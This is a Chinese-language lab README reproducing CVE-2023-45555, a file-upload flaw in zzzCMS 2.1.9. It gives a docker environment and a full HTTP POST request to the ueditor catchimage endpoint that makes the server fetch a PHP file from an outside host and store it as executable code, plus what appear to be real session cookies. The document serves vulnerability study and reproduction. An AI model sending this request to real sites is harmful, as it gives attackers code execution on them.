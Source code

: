 # CVE-2023-45555 zzzcms 抓取远程文件shell上传

 zzzcms系统是一款免费、开源的php语言建站系统，采用类MVC结构，框架简单，简单易学。诞生于2016年，其设计初衷是为了让用户快速、方便地建立自己的网站。该系统采用PHP语言开发，支持多相对于其他内容管理系统，ZZZCMS的特点在于其操作简单，易于上手，而且具有良好的扩展性和安全性。此外，ZZZCMS还提供了丰富的功能模块，包括文章管理、分类管理、标签管理、留言管理、友情链接管理等，可以满足大多数用户的需求。同时，ZZZCMS还提供了强大的SEO优化功能，可以帮助用户提高网站的排名，吸引更多的流量。支持MySQL、sQLite数据库。

 zzzCMS v.2.1.9 中的文件上传漏洞允许远程攻击者通过将 imageext 参数从 jpg、jpeg、gif 和 png 修改为 jpg、jpeg、gif、png、pphphp 来执行任意代码。

zzzCMS官网 http://www.zzzcms.com/index.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-45555
- https://github.com/96xiaopang/Vulnerabilities/blob/main/zzzcms任意文件上传_en.md

## 漏洞环境



执行如下命令启动一个zzzcms-v2.1.7-web：

```
docker compose up -d
```



环境启动后，访问`http://your-ip:80`即可跳转到zzzcmsan安装向导页面



## 漏洞复现

1，使用CVE-2023-45554 增加图片上传的类型 php

![](https://github.com/Shelter1234/VulneraLab/raw/main/zzzCMS/CVE-2023-45554/4.png)

2，构造如下包，抓取远程文件

```
POST /plugins/ueditor/php/controller.php?action=catchimage&encode=utf-8 HTTP/1.1
Host: www.zzcms.io
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; PHPSESSID=feab404c462e213c6ee39963cc6f7178; zzz998_usercheck=0; zzz116_token=bdcc0f20eec1a5aa7b0a97a58248dacc; zzz116_adminpass=1; zzz116_adminpath=1; zzz116_adminname=admin; zzz116_admintime=1712735964; zzz116_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz911_token=10a5ec35885be8a4f58414fc7b4deeb0; zzz911_adminpass=1; zzz911_adminpath=1; zzz911_adminname=admin; zzz911_admintime=1712739306; zzz911_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz436_adminpass=1; zzz436_adminpath=1; zzz436_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz811_upload=[{"url":"/upload/news/20220923025718/1663916253122919.jpg","title":1663916253122919}]; zzz436_token=7fdaa1daaeb4cd0cbc5c70dcb010c18d; zzz436_adminname=admin; zzz436_admintime=1712831317
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

source[]=http://10.66.64.89/phpinfo.php
```

![image-20240411184608861](./1.png)

3，访问我们构造好的php文件

![image-20240411185945276](C:\Users\admin\Documents\GitHub\VulneraLab\zzzCMS\CVE-2023-45555\2.png)